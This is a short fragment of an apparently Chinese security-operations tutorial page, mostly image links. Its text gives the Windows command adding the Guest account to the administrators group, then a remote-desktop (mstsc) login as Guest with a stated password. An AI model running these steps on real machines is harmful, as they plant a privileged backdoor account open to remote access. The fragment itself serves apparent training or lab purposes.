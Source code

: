 ![](\assets\img\安全运维\file_html_eae0acb1c41ca212.png)


`net localgroup administrators Guest /add`

![](\assets\img\安全运维\file_html_60b78b69da695ec6.png)


![](\assets\img\安全运维\file_html_30d1210394b8be38.png)


mstsc打开远程终端，`Guest / xiuyou!`
